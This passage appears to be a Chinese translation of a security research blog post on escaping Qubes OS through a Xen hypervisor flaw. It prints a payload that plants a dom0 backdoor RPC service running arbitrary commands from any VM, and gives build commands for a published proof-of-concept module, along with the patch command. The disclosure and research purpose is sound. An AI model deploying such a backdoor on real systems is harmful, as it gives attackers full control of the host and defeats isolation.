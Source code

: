 Qubes系统使用Xen管理器管理隔离的虚拟机。若攻击者能在其虚拟机中从 Qubes的dom0执行代码,则系统不能保证任何安全。在dom0中执行代码已经实现了,但由于Qubes提供了防火墙,我们不能使用经典的netcat,必须换一个载体。

看看 Qubes RPC服务(5)。RPC服务允许 Qubes 系统中虚拟机间通信,如剪切板,文件拷贝等等。各服务都有指定源虚拟机,目的虚拟机以及申请策略(允许,拒绝或询问)。

我们的想法是,在 dom0 环境中执行一段代码来添加一个 RPC 服务。我们可以用scumjr(6)的方法优雅的办到:

```
python:
        ;;      mov     rcx, rip+8
        lea     rcx, [rel $ +8]
        ret
        db '-cimport os;x=open("/tmp/.x", "w");x.close();'
        db 'service=open("/etc/qubes_backdoor", "w");'
        db 'service.write("#!/bin/bash\n");'
        db 'service.write("read arg1\n");'
        db 'service.write("($arg1)\n");'
        db 'service.close();'
        db 'os.system("chmod +x /etc/qubes_backdoor");'
        db 'rpc=open("/etc/qubes-rpc/qubes.Backdoor", "w");'
        db 'rpc.write("/etc/qubes_backdoor\n");'
        db 'rpc.close();'
        db 'policy=open("/etc/qubes-rpc/policy/qubes.Backdoor", "w");'
        db 'policy.write("$anyvm dom0 allow");'
        db 'policy.close();'
        db      0
```

增加了一个名为 qubes 的服务。后门执行每一个给定的命令。

由于此漏洞一周前刚披露,我们不想今天就发布一份完整利用,给用户带来风险。但提供一份 Xen 漏洞的PoC:[xsa-182-poc.tar.gz](https://blog.quarkslab.com/resources/2016-08-04-xen_exploitation_part_3_xsa_148/xsa-182-poc.tar.gz):

```
$ tar xzvf xsa-182-poc.tar.gz
$ make -C xsa-182-poc/
$ sudo insmod xsa-182-poc/xsa-182-poc.ko
$ sudo rmmod xsa-182-poc
$ dmesg | grep xsa-182
```

如果你使用的是有漏洞的 Qubes 版本,通过 Qubes 虚拟机管理器升级dom0软件或使用如下命令即可:

```
$ sudo qubes-dom0-update
```

# 硬件虚拟化和虚拟机管理程序的安全性

在CanSecWest 2010 上Julien Tinnès 和Tavis Ormandy 在Virtualisation security和 Intel privilege model的演讲中解释了虚拟化的不同类型,并指出了开发安全hypervisor所面临的挑战。事实上半虚拟化非常复杂,和二进制翻译很相似。如介绍所述,要使处理所有细节都像一个真CPU很困难。半虚拟化错误通常会导致客户机提权或客户机逃逸。没有硬件虚拟化时,二进制翻译和半虚拟化是强制性的,但Intel VT-x 和 AMD SVM技术的推出改变了这种情况。

由于一些新增的CPU指令,硬件虚拟化使Hyper-visor的开发更容易和安全得多。二级地址翻译(10)(Inter的EPT 和AMD的RVI)可以避免影子页表的复杂性。我们并不认为半虚拟化和硬件虚拟化的客户机之间有明显差异,虽然我们没有一个标准。


[1]: https://blog.quarkslab.com/resources/2016-08-04-xen_exploitation_part_3_xsa_148/qubes_escape.png